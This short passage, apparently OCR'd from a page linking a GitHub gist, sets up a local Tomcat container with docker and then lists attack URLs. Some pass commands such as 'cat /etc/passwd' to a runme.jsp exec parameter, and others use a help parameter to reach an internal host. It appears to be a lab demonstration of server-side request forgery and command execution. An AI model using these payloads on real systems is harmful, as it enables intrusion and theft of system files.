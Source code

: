 https://gist.github.com/hallazzang/c346e544b1c6fce8f304fdd5b2295fbhttps://gist.github.com/hallazzang/c346e544b1c6fce8f304fdd5b2295fb66

docker build -t mywebapp .
docker run --rm -it -p 127.0.0.1:8881:8080 -v $(pwd)/webapp:/usr/local/tomcat/webapps/webapp mywebapp
http://localhost:8881/webapp

http://localhost:8881/webapp/?help=runme.jsp?exec=ls
http://localhost:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd

http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/introduction
http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/runme.jsp?exec=ls
